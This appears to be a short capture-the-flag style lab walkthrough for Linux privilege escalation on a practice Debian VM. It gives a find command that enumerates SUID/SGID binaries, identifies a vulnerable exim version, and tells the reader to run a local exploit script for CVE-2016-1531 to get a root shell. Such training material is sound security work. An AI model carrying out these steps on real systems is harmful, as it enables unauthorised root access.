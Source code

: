 
Find all the SUID/SGID executables on the Debian VM:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

Note that /usr/sbin/exim-4.84-3 appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM at **/home/user/tools/suid/exim/cve-2016-1531.sh**.

Run the exploit script to gain a root shell:

`/home/user/tools/suid/exim/cve-2016-1531.sh`

https://www.exploit-db.com/exploits/39535

